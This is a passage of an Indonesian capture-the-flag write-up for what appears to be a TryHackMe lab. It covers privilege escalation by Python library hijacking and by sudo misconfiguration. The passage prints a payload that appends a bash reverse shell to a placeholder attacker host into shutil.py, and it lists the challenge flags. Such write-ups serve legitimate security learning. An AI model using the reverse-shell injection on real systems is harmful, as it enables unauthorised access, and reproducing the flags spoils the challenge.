Karena directory `/usr/lib/python3.8` tidak writable oleh Death dan hanya file `shutil.py` yang writable, saya mencoba melakukan copy terlebih dahulu ke `/tmp` agar dapat diedit dengan lebih mudah.

Payload yang digunakan:

```bash
python3 - <<'PY'
p="/tmp/shutil.py"
with open(p, "a") as f:
    f.write('\nimport os\n')
    f.write('os.system("bash -c \'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1\'")\n')
PY
```
Setelah selesai diedit, file tersebut saya copy kembali ke path aslinya.

Kemudian saya menjalankan listener Netcat dan menunggu `restore.py` dieksekusi kembali.Setelah trigger berjalan, saya berhasil mendapatkan shell sebagai Morpheus.

---

## Morpheus → Root

Setelah mendapatkan shell Morpheus, saya mencoba:

```bash
sudo -l
```

Hasilnya:

```text
(ALL) NOPASSWD: ALL
```

Dari sini tinggal menjalankan:

```bash
sudo -i
```

dan saya berhasil menjadi root.



---

## Flags

### Death

```text
THM{1M_TH3R3_4_TH3M}
```

### Lucien

```text
THM{TH3_L1BR4R14N}
```

### Morpheus

```text
THM{DR34MS_5H4P3_TH3_W0RLD}
```

---

## Takeaway

Box ini menunjukkan bagaimana beberapa vulnerability dan misconfiguration dapat dirangkai menjadi satu privilege escalation chain.

Mulai dari Pluck RCE, kemudian credential discovery untuk mendapatkan akses sebagai Lucien, dilanjutkan dengan sudo permission yang mengarah ke `getDreams.py`.

Setelah memahami bagaimana script tersebut mengambil data dari MySQL, ditemukan bahwa input dari database dimasukkan langsung ke command yang dieksekusi menggunakan `shell=True`. Hal tersebut memungkinkan command injection dan menghasilkan code execution sebagai Death.

Setelah mendapatkan shell interaktif sebagai Death, enumerasi menggunakan LinPEAS menemukan `shutil.py` yang writable. Karena `restore.py` milik Morpheus melakukan import terhadap library tersebut, file tersebut dapat digunakan untuk melakukan Python Library Hijacking dan mendapatkan akses sebagai Morpheus.

Terakhir, `sudo -l` pada Morpheus menunjukkan:

```text
(ALL) NOPASSWD: ALL
```

yang memberikan jalur langsung menuju root.

---

## Note
Jangan menelan mentah-mentah setiap asumsi atau kesimpulan teknis di writeup ini. Beberapa bagian merupakan hipotesis atau reasoning yang saya gunakan selama proses solving dan belum tentu merupakan penjelasan paling presisi mengenai underlying mechanism. Tujuan writeup ini adalah mendokumentasikan proses investigasi dan exploitation path yang saya gunakan.
